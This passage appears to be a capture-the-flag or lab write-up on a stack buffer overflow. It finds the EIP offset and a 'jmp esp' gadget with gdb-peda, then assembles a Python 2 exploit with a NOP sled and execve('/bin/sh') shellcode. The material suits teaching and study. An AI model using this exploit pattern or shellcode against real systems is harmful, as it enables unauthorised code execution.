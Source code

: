 The `EIP` register was successfully overwritten and now the offset.

```bash
gdb-peda$ pattern_offset 0x41332541
1093870913 found at offset: 268
```

Following the above statement which mentions the binary does not have a function which creates a shell instance, this means that in such cases a `jmp` call must be found. In particular one that makes the program jump back to the stack pointer - `ESP`. Such calls are called `jmp esp`. Some calls might be at `ebp` or `ecx` or `eax`, this really depends on where the user provided data is stored.

Using gdb-peda, finding a call such as `jmp esp` is easilly found with the following command: <code>jmpcall</code>.

Since the offset is identified, a `jmp esp` call can be looked up.

```bash
gdb-peda$ jmpcall esp
0x56557043 : jmp esp
0x56558043 : jmp esp
```

Development of an exploit can now begin.

```python
#!/usr/bin/env python2
import struct

ffset = "A" * 268 # offset = 268 (junk)
eip = 0x56558043 # jmpcall : 0x56558043 jmp esp;
ret = struct.pack("<I", eip)
```

Since the program doesn't have its own `execve()` method to launch `/bin/sh` for example, we need to provide our own.

A shellcode to spawn `/bin/sh` can be found online. One place is [exploit-db.com](https://www.exploit-db.com/shellcodes/46809).
In exploit development there is one hex code known as a `NOPSLED` also known as no operation instruction. 

It simply tells a program to not do anything and proceed further in memory until it finds a valid address to execute. This is typically used to allign the stack so that after a `jmp esp` call a program can simply go straight to the shellcode.

With the information so far, a final exploit can be developed which should look something like the following:

```python
#!/usr/bin/env python2
import struct

offset = "A" * 268 # offset = 268 (junk)
eip = 0x56558043 # jmpcall : 0x56558043 jmp esp;
ret = struct.pack("<I", eip) # pack the jmpcall in little endian

# slide to shellcode
nops = "\x90" * 10
shellcode = (
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69"
"\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
) # execve("/bin/sh")

print offset + ret + nops + shellcode
```

